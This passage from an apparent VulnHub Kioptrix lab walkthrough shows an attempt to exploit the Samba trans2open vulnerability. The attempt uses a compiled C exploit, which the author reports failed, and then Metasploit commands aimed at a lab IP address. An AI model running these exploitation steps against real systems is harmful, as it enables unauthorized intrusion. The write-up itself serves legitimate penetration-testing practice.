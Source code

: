For the exploit to work the target needs to allow anonymous access to the IPC$ share. This was confirmed during the enumeration stage. Since this is also a C code it needs to be compiled after download. I could not get the C code to work. No matter how many times I run the code it would always fail.

```bash
./trans2open 0 10.0.2.22 10.0.2.15
```

![Samba Exploit 1|440](images/vulnhub-kioptrix-lvl1/samba-exploit-1.png)

Metasploit also has a `trans2open` exploit. This exploit is written in Ruby.

```bash
msfconsole

# Metasploit Commands
search trans2open
use 1
show options
set RHOSTS 10.0.2.22
exploit
```

![Samba Exploit 2](images/vulnhub-kioptrix-lvl1/samba-exploit-2.png)
